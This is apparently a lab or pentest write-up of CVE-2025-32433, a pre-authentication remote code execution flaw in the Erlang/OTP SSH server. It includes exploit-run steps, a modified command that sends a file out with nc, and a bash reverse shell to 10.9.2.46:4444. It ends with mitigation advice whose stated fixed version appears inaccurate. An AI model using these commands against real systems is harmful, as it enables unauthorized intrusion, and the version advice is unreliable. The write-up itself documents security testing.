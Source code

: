 # Erlang/OTP SSH: CVE-2025-32433

## 🎯 **Target:**
- **Service**: Erlang/OTP SSH Service (version 5.2.9)
- **Vulnerability**: **CVE-2025-32433** – Remote Code Execution via SSH



## 📝 **Overview**

During the engagement, the **Erlang/OTP SSH server** (version 5.2.9) was identified as vulnerable to **CVE-2025-32433**. This vulnerability allows remote attackers to execute arbitrary commands on the target system by sending a specially crafted SSH message prior to authentication.



## 💥 **Exploit Details**

**Exploit Source**:  
- **Repository**: [ProDefense GitHub](https://github.com/ProDefense/CVE-2025-32433)

The vulnerability was confirmed by executing the following steps:

**Clone the Exploit Repository**:
   ```
   git clone https://github.com/ProDefense/CVE-2025-32433
   ```
   
**Run the Exploit:**

Using Python 3, the exploit was executed as follows:
```
python3 CVE-2025-32433.py
```

The following output was observed:

```
[*] Connecting to SSH server...
[+] Received banner: SSH-2.0-Erlang/5.2.9
[*] Sending SSH_MSG_KEXINIT...
[*] Sending SSH_MSG_CHANNEL_OPEN...
[*] Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...
[✓] Exploit sent! If the server is vulnerable, it should have written to /lab.txt.
[+] Received response: ...
```

**Modification to Command Execution:**
The original exploit writes to `/lab.txt` to verify code execution. However, to confirm the attack’s success, the following change was made to trigger a reverse shell:

```
command='os:cmd("cat /lab.txt | nc 10.9.2.46 4444").'
```
This would send the contents of /lab.txt back to the attack machine.

## 💻 Gaining Shell Access
A reverse shell was successfully obtained by altering line 108 of the exploit:

```
command='os:cmd("bash -c \\"bash -i >& /dev/tcp/10.9.2.46/4444 0>&1\\"").'
```
This triggers the target system to establish an outbound connection to the attack machine on port 4444 and provide an interactive shell.

**Listener Setup:**
The attacker’s machine listens on port 4444 for the reverse shell:
`nc -lvnp 4444`

**Connection:**
After executing the modified exploit, the following output confirmed a successful connection:

```
connect to [my_ip] from (UNKNOWN) [attack_ip] 40852
pwned sent 0, rcvd 5
```

The output pwned was returned, confirming the reverse shell was successful.

## ⚠️ Impact
Exploitation of this vulnerability allows an attacker to execute arbitrary commands on the vulnerable Erlang/OTP SSH server before authentication. This can lead to:

- Remote Code Execution (RCE).

- Potential full system compromise if an attacker escalates privileges.

This type of vulnerability is particularly dangerous as it is a **pre-authentication attack**, meaning the attacker does not need valid credentials to exploit it.

##🛡️ Mitigation & Recommendations
To address CVE-2025-32433, the following steps are recommended:

- **Upgrade Erlang/OTP:**
Upgrade to **Erlang/OTP 26.2.4** or later, as these versions include fixes for this vulnerability.

- **Disable Erlang SSH Server (if not needed):**
If the SSH server is not necessary for your application, it should be disabled to prevent exploitation:
`application:stop(ssh).`

- **Firewalling and Segmentation:**
If the Erlang/OTP SSH server must remain accessible, ensure that access is restricted to trusted IPs and that the service is segmented from the public network.

## 🔚 Conclusion
The vulnerability **CVE-2025-32433** in the Erlang/OTP SSH server allows for pre-authentication remote code execution, which could lead to full system compromise. The attack was successfully demonstrated by exploiting the flaw to write to a file and gain reverse shell access.